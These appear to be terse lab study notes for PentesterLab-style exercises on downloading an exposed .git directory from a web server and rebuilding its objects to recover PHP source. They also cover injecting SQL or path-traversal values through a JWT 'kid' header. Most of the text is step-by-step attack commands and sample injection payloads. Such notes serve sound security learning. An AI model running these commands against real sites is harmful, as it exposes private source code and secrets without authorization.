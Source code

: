 ## PTL Blue Random Notes

#### Git Information Leak

- wget -r http://<RHOST>/.git/
- git diff

#### JWT

- hashcat
- Always Look out for the kid param in the jwt token header which might be a vector for an attack (SQL injections Directory traversals...)
- SQL Injection => gdgsgsg' UNION SELECT secretValue'
- Directorty Traversal => public/css/bootstrap.css

## Git Information Leak II

- .git/config
- .git/HEAD
- .git/HEAD => refs/heads/master => .git/refs/heads/master
- 4eb80f585fec91b4d06aeb119230c9870dc494e1
- .git/objects/4e/b80f585fec91b4d06aeb119230c9870dc494e1
- file b80f585fec91b4d06aeb119230c9870dc494e1 => zlib compressed data
- printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - b80f585fec91b4d06aeb119230c9870dc494e1 |gzip  -cd -q
- - .git/objects/58/ace0476093d04023f84d7816adacfa7b879c43
- printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - ace0476093d04023f84d7816adacfa7b879c43 |gzip  -cd -q | strings -a
- mkdir /tmp/hack
- cd /tmp/hack
- git init 
- mkdir -p .git/objects/58 .git/objects/4e
- cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
- cp /tmp/b80f585fec91b4d06aeb119230c9870dc494e1 /tmp/hack/.git/objects/4e/
- git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
- => 100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33	footer.php
- => 100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82	header.php
- => 100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c	index.php
- .git/objects/5a/dab1a1c52dc009d4f26bbce30dacc4c93eea33 footer.php
- git cat-file -p 5adab1a1c52dc009d4f26bbce30dacc4c93eea33
- .git/objects/c3/646db7f9c7e6f126c75900fdcce16d50e1da82 header.php
- git cat-file -p c3646db7f9c7e6f126c75900fdcce16d50e1da82
- Some tools like Git-Money, DVCS-Pillage and GitTools automate the retrieval of the remote content.
